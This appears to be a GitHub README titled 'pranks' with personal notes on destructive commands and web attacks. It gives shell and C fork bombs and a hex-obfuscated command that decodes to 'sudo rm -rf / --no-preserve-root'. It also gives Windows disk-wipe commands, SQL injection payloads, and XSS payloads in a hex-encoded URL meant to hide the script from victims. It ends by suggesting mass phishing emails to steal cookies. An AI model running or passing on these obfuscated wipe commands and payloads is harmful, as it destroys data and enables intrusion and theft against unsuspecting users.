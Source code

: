 # pranks
These are my notes on bad things that can happen.  The focus here is programmatic stuff, if application security is your thing then you should check out OWASP Top 10 documentation!  [Click here for the 2017 version of that.](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
  
## Terminal Commands
For use in a terminal or a command prompt or something  
  
### Fork Bomb
A form of DOS (denial of service) attack.  
The process continually replicates itself to deplete available system resources.  
In shell, it looks like this:  
```shell
:(){ :|: & };:
```
Also possible in C like this:
```c
int main() {
    while(1)
        fork();
    return 0;
}
```
### Deletion
First off, here are some hex shenanigans:
```shell
$(echo 7375646f20726d202d7266202f202d2d6e6f2d70726573657276652d726f6f74 | xxd -r -p)
```
This is hexidecimal, but converted to ascii its:
```shell
sudo rm -rf / --no-preserve-root
```
Which will delete everything from the selected directory.  
This does the same thing in Windows (maybe):  
```shell
Format C: /q /y
```
Supposedly delete windows, but windows will probably try to stop you  
idk I never actually tested it lol
```shell
rd /s /q c:\windows
```
## Stuff for username fields and search bars
For use in the event that you suspect certain technology is being used and want to check.
### SQL Injection
May be able to return all info from users table depending on the db
```SQL
anything';SELECT * FROM users WHERE 't' = 't
```
Error based injection - sql injection to provoke an error message, hopefully revealing sensitive information like db type, etc.  
Should create a statement that's always true and note out the rest of the code with the `--` at the end.
```SQL
SELECT * FROM users WHERE id = 1 OR 1 = 1--
```
Perhaps the application is detecting that you're using a sql injection and is giving you a generic error or no error in response.  If you want to check so see if the sql injection is being processed, try adding a time delay.
```SQL
if (is_srvrolemember('sysadmin') > 0) waitfor delay '0:0:5'
```
^That's for SQLServer, use `SLEEP(seconds)` for MySQL 5
### Cross-Site Scripting
Sometimes if you enter text into a searchbox and the page displays it, it may actually be injecting your input directly into the HTML of the page.  If that's happening, you can use <script> tags to inject code into the page.  Try the below code to see if XSS is possible:
```HTML
<script>alert("You'll see this text in an alert box if so");</script>
```
If you see the above input in plaintext, the page may be putting quotes around your input.  Add a `"` to the beginning and try again.  So what's the advantage of this?  Well not only can you make a page run script, but if the page displays your search in the URL then you could write your search, take the URL, and hex the search so that you could send the link to someone and they would not see your script unless they converted the hex back to ascii.
Use this converter: https://www.rapidtables.com/convert/number/ascii-to-hex.html
```
http://www.site.com/search.php?q="><script>alert("haxorz")</script>
would instead look like this
http://www.site.com/search.php?q=22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%68%61%78%6f%72%7a%22%29%3c%2f%73%63%72%69%70%74%3e
```
Now simply send a million emails pretending to be someone's grandma asking how to buy a birthday present online and start stealing cookies!
## Cookie stealin
Coming soon
